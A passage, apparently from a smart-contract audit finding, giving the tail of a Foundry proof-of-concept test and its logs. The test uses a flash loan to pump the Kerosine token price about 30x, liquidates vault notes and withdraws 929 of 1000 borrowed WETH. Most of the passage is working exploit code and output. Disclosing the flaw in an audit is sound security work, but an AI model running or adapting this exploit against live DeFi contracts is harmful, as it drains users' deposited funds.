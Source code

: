 ```

    // Mint dyad from note 1 to the max to get note 2 underwater
    id1loan = exogenousBorrowingPowerDyad(10 ether, 0);
    console2.log("id1loan: %s", id1loan);
    contracts.vaultManager.mintDyad(id1, id1loan, address(this));

    console2.log("Metrics id2 after id1 borrows");
    displayMetrics(id2);

    // Liquidate note 2 again
    contracts.vaultManager.liquidate(id2, id3);

    console2.log("Metrics id2 after second liquidation");
    displayMetrics(id2);

    console2.log("Metrics id3 after second liquidation");
    displayMetrics(id3);

    // Withdraw the weth from note 3
    contracts.vaultManager.add(id3, address(contracts.ethVault));
    contracts.vaultManager.withdraw(id3, address(contracts.ethVault), contracts.ethVault.id2asset(id3), address(this));
    console2.log("WETH recovered after two rounds: %s", displayDecimals(ERC20(MAINNET_WETH).balanceOf(address(this)), 18));
    //assertGt(contracts.unboundedKerosineVault.id2asset(id), 0);
  }
}
```

The output shows that we pumped the kerosine price by 30x from 14216 to 488088. With just two rounds, we were able to recover 929 WETH out of the 1000 we flash loaned. More rounds would recover more. The remainder could be extracted in the next block.

```
[PASS] testUseFlashLoansToPumpKerosinePrice_Debug() (gas: 13094537)
Logs:
  Normal Kerosine Price: 14216
  WETH obtained as a flash loan: 1000,200000000000000000
  Metrics id2 before id1 borrows
  ------------------------ 883
  Deposited Eth:           1000,000000000000000000
  Deposited Eth(USD):      2820630,00000000
  Deposited WstEth:        0,000000000000000000
  Deposited WstEth(USD):   0,00000000
  Deposited Kerosine:      0,000000000000000000
  Deposited Kerosine(USD): 0,00000000
  V2 minted Dyad:          1880420,000000000000000000
  V2 minted Dyad(USD):     1880420,00000000
  Collateralization Ratio: 1,500000000000000000
  ------------------------
  
  Maximum Kerosine Price: 488088
  Metrics id2 after depositing kerosine
  ------------------------ 883
  Deposited Eth:           1000,000000000000000000
  Deposited Eth(USD):      2820630,00000000
  Deposited WstEth:        0,000000000000000000
  Deposited WstEth(USD):   0,00000000
  Deposited Kerosine:      100000,000000000000000000
  Deposited Kerosine(USD): 487,84278588
  V2 minted Dyad:          1880420,000000000000000000
  V2 minted Dyad(USD):     1880420,00000000
  Collateralization Ratio: 1,500259432467214771
  ------------------------
```
